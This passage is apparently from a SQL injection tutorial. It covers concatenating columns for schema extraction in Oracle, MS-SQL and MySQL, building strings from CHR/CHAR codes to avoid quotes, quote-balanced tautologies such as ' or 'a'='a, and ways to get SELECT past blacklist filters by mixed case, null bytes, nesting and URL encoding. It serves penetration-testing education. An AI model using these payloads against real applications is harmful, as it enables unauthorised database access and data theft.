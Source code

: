 
**TIP: When multiple columns are returned from a target table, these can be concatenated into a single column. This makes retrieval more straightforward, because it requires identification of only a single varchar field in the original query:**
- **Oracle:** `SELECT table_name||':'||column_name FROM all_tab_columns`
- **MS-SQL:** `SELECT table_name||+':'+column_name from information_schema.columns`
- **MySQL:** `SELECT CONCAT(table_name,':',column_name) from information_schema.columns`

## Bypassing Filters
Input Filters prevent you from exploiting the flaw without restrictions. For example, the application may remove or sanitize certain characters or may block common SQL keywords. Filters of this kind are often vulnerable to bypasses, so you should try numerous tricks in this situation.

### _Avoiding Blocked Characters_
If the application removes or encodes some characters that are often used in SQL injection attacks, you may still be able to perform an attack without these:
- The single quotation mark is not required if you're injecting into a numeric data field or column name. If you need to introduce a string into your attack payload, you can do this without needing quotes. You can use various string functions to dynamically construct a string using the ASCII codes for individual characters. For example, the following two queries for Oracle and MS-SQL, respectively, are the equivalent of `select ename, sal from emp where ename='marcus'`:
```
SELECT ename, sal FROM emp WHERE ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)
```

```
SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)+CHAR(114)+CHAR(99)+CHAR(117)+CHAR(115)
```

- If the comment symbol is blocked, you can often craft your injected data such that it does not break the syntax of the surrounding query, even without using this. For example, instead of injecting:
```
' or 1=1--
```

you can inject:

```
' or 'a'='a
```

- When attempting to inject batched queries into an MS-SQL database, you do not need to use the semicolon separator. Provided that you fix the syntax of all queries in the batch, the query parser will interpret them correctly, whether or not you include a semicolon.


### _Circumventing Simple Validation_
Some input validation routines employ a simple blacklist and either block or remove any supplied data that appears on this list. In this instance, you should try the standard attacks, looking for common defects in validation and canonicalization mechanisms. For example, if the `SELECT` keyword is being blocked or removed, you try the following bypasses:

```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```
